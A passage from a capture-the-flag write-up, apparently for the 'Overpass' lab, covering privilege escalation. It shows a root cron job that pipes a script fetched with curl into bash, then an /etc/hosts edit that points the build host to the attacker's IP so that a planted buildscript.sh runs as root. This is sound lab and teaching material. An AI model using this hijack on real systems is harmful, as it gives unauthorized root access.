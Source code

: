 
## **Privilege Escalation**

On james home directory, there is a note that says that there is an automated build script, and we know that we can find information about those in the **/etc/crontab** file.

```terminal
james@overpass-prod:~$ cat todo.txt
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
james@overpass-prod:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

We find there is an automated command running as root, the command uses `curl` to call for a bash script, and passes the content of that script to `bash`, so whatever commands on that file, they will get executed on the machine and by **root**.

What we can do is:

 - change the ip address of overpass to our ip address in **/etc/hosts** file.
 - Create the same 2 directories and put **buildscript.sh** in them.
 - Write the desired script you want to run in the **buildscrip.sh** file.
 - Start a HTTP server using python3 on our machine.

```terminal
james@overpass-prod:~$ vim /etc/hosts
james@overpass-prod:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
10.11.31.131 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```
